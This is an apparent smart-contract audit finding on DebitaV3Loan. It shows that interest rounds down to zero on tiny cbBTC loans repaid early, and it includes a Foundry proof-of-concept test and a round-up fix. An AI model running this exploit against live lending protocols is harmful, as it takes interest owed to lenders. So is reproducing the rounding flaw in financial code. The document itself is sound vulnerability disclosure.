 Nutty Snowy Robin

Medium

# Borrower Can Avoid Paying Interest In Certain Scenarios

### Summary

The function `DebitaV3Loan::calculateInterestToPay()` calculates the interest the borrower must pay to the lender, based on the APR specified in the associated lend offer:
```solidity
function calculateInterestToPay(uint index) public view returns (uint) {
        infoOfOffers memory offer = loanData._acceptedOffers[index];
        uint anualInterest = (offer.principleAmount * offer.apr) / 10000;
        // check already duration
        uint activeTime = block.timestamp - loanData.startedAt;
        uint minimalDurationPayment = (loanData.initialDuration * 1000) / 10000;
        uint maxDuration = offer.maxDeadline - loanData.startedAt;
        if (activeTime > maxDuration) {
            activeTime = maxDuration;
        } else if (activeTime < minimalDurationPayment) {
            activeTime = minimalDurationPayment;
        }

>>      uint interest = (anualInterest * activeTime) / 31536000;

        // subtract already paid interest
        return interest - offer.interestPaid;
    }
```
#### Interest Calculation Vulnerability

Within the function, interest is calculated by multiplying the annual interest rate by the active time of the loan and dividing the result by the number of seconds in a year. However, this calculation can be manipulated by the borrower. If the product of the annual interest rate and the active time of the loan is smaller than the number of seconds in a year, the calculated interest rounds down to zero. This allows the borrower to avoid paying any interest.

This issue can be exploited by matching orders with minimum amounts and corresponding durations and APRs. For example:

- **Duration**: 30 days  
- **Amount Lent**: 0.0001 cbBTC (~8 USD)  
- **APR**: 1%  

If the borrower repays on the 3rd day of the loan, the calculated interest would round down to zero, resulting in no interest being paid.

>*Scenario details on attack path section*

### Root Cause

The [interest calculation](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/DebitaV3Loan.sol#L734) rounds down the resulting value.

### Internal pre-conditions

- Lending tokens with few decimals but high value (cbBTC).

### External pre-conditions

_No response_

### Attack Path
#### Lend Offer by Alice:
- **Available Amount**: 3 cbBTC  
- **Min Duration**: 30 days
- **APR**: 1%
- **Collateral Accepted**: USDC

#### Borrow Offer by Bob:
- **Available Amount**: 1000 USDC  
- **Duration**: 30 days  
- **Max APR**: 1%  
- **Principle Accepted**: cbBTC  

#### Bob Match with Alice:
- **Lend Amount**: 0.0001 cbBTC (~8 USD)  
- **Duration of the Loan**: 30 days  
- **APR**: 1%  

### Repayment Scenario:
After 3 days (10% of the loan duration) the borrower repays the debt, which should reduce the interest to 0.  
Inside the `calculateInterestToPay(index)` function:  
- **`annualInterest`**: `100` (`(principleAmount * offer.APR) / 10000`).  
- **`activeTime`**: `259200` seconds (3 days).  
- **`interest`**: `(100 * 259200) / 31536000 = 0`.  

### Impact

Borrower can avoid paying interest.

### PoC
You can paste the following functions in `test/fork/Incentives/MultipleLoansDuringIncentives.t.sol`.
You can run it with: `forge test --fork-url https://mainnet.base.org --fork-block-number 21151256 --no-match-path '**Fantom**' --mt testAvoidInterest -vvvv`

<details>

<summary>Add cbBTC token</summary>

Add these two lines at the top of the contract to initialize the Mock and specify the address of the Base chain:
```diff
+ ERC20Mock public cbBTCContract;
+ address cbBTC = 0xcbB7C0000aB88B473b1f5aFd9ef808440eed33Bf;
```
Start the `cbBTC` contract inside the `setup()` function:
```diff
+ cbBTCContract = ERC20Mock(cbBTC);
```

</details>


<details>

<summary>Test to run</summary>

```solidity
function testAvoidInterest() public {
        // Create a loan with 0.0001 cbBTC (1e4)
        createUsualLoan(borrower, firstLender, cbBTC, AERO);
        console.log("balance borrower cbBTC", IERC20(cbBTC).balanceOf(borrower));
        // Pass 3 days
        vm.warp(block.timestamp + 3 days);
        
        // repay the debt
        // Interest:
        // annualInterest = (1e4 * 1_00) / 10_000
        // interest = (annualInterest * 3 days) / 31_536_000 = 0
        uint[] memory indexes = allDynamicData.getDynamicUintArray(1);
        vm.startPrank(borrower);
        IERC20(cbBTC).approve(address(DebitaV3LoanContract), 1e4);
        DebitaV3LoanContract.payDebt(indexes);
        vm.stopPrank();

        // claim debt + interest
        uint balanceLenderBeforeClaim = IERC20(cbBTC).balanceOf(firstLender);
        vm.prank(firstLender);
        DebitaV3LoanContract.claimDebt(0);
        uint balanceLenderAfterClaim = IERC20(cbBTC).balanceOf(firstLender);
        
        // claim collateral
        vm.prank(borrower);
        DebitaV3LoanContract.claimCollateralAsBorrower(indexes);

        uint annualInterest = (1e4 * 100) / 10000;
        uint interest = (annualInterest * 3 days) / 31536000;
        
        assertEq(interest, 0);
        // lender didn't get his interest
        assertEq(balanceLenderAfterClaim, balanceLenderBeforeClaim + 1e4 + interest);
        assertEq(balanceLenderAfterClaim, balanceLenderBeforeClaim + 1e4);
    }
```

</details>


<details>

<summary>Function to create and match the orders</summary>

```solidity
// Create orders and match them with low quantity
    // No oracles
    function createUsualLoan(
        address _borrower,
        address lender,
        address principle,
        address collateral
    ) internal returns (address) {
        vm.startPrank(_borrower);
        deal(principle, lender, 10e8, false);
        // Give 80 cbBTC to the borrower in order to pay the fee when repaid
        deal(principle, borrower, 80, false);
        deal(collateral, _borrower, 1000e18, false);
        IERC20(collateral).approve(address(DBOFactoryContract), 500e18);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        // set the values for the loan
        ltvs[0] = 5000;
        acceptedPrinciples[0] = principle;
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = false;
        ratio[0] = 5e17;

        oraclesCollateral[0] = DebitaChainlinkOracle;

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            100, // 1% APR to not pay interest
            30 days, // duration
            acceptedPrinciples,
            collateral,
            false, // nft
            0, // receipt ID
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            500e18
        );

        vm.stopPrank();

        vm.startPrank(lender);
        IERC20(principle).approve(address(DLOFactoryContract), 2e8);
        ltvsLenders[0] = 5000;
        ratioLenders[0] = 5e17;
        oraclesActivatedLenders[0] = false;
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivatedLenders,
            false,
            ltvsLenders,
            100, // apr
            35 days, // max duration
            25 days, // min duration
            acceptedCollaterals,
            principle,
            oraclesCollateral,
            ratioLenders,
            address(0), // oracle principle, not need it
            2e8
        );
        vm.stopPrank();
        vm.startPrank(connector);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = lendOrderAddress;
        lendAmountPerOrder[0] = 1e4; // Utilize minimum quantity to not pay interest

        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = principle;

        // match
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            borrowOrderAddress,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
        vm.stopPrank();


    }
```

</details>

### Mitigation

The resulting interest calculation needs to be rounded up:

```diff
function calculateInterestToPay(uint index) public view returns (uint) {
        infoOfOffers memory offer = loanData._acceptedOffers[index];
        uint anualInterest = (offer.principleAmount * offer.apr) / 10000;
        // check already duration
        uint activeTime = block.timestamp - loanData.startedAt;
        uint minimalDurationPayment = (loanData.initialDuration * 1000) / 10000;
        uint maxDuration = offer.maxDeadline - loanData.startedAt;
        if (activeTime > maxDuration) {
            activeTime = maxDuration;
        } else if (activeTime < minimalDurationPayment) {
            activeTime = minimalDurationPayment;
        }
-       uint interest = (anualInterest * activeTime) / 31536000;
+       uint interest = ((anualInterest * activeTime) + 31536000 - 1) / 31536000;

        // subtract already paid interest
        return interest - offer.interestPaid;
    }
```